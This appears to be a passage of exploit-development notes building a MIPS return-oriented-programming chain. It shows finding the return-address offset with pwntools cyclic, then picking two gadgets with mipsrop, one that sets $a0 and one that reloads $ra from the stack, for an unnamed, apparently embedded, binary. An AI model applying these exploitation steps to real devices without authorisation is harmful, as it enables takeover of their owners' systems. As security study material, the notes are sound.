 

### generate ROP chain

- ra offset 

  use `cyclic` in pwntools

  ```
  payload = cyclic(1000, n=4) 
  
  pwndbg> i r ra
  ra: 0x79616166 ('yaaf')
  
  In [5]: cyclic_find("yaaf",n=4)
  Out[5]: 596
  ```

​		offset : 596 

- gadaget 1

  Find instruction pass value to ` $a0`

  ```
  Python>mipsrop.find("li $a0,1")
  ---------------------------------------------
  |  Address     |  Action   |  Control Jump   |
  ---------------------------------------------
  |  0x000512C0  |  li $a0,1     |  jalr  $s1  |
  ...
  ```

  Value of `$ra ` is : 000512C0 + base addr

  ```
  .text:000512C0                 li      $a0, 1
  .text:000512C4                 move    $t9, $s1
  .text:000512C8                 jalr    $t9 ; sub_50FC0
  ```

- gadaget 2

  since `$s1` can control , the second gadget run sleep function, but for the next gadget ,we need control `$ra`

  ```
  Python>mipsrop.tail()
  ---------------------------------------------
  |  Address     |  Action   |  Control Jump   |
  ---------------------------------------------
  |  0x00035348  |  move $t9,$s2    |  jr    $s2 
  ...
  ```

  Value of `$ra` is from stack, `$s2` is also in control.

  ```
  .text:00035348                 move    $t9, $s2
  .text:0003534C                 lw      $ra, 0x18+var_sC($sp)
  .text:00035350                 lw      $s2, 0x18+var_s8($sp)
  .text:00035354                 lw      $s1, 0x18+var_s4($sp)
  .text:00035358                 lw      $s0, 0x18+var_s0($sp)
  .text:0003535C                 jr      $t9 ; 
  ```


  [init_sock:377]: bind interface error.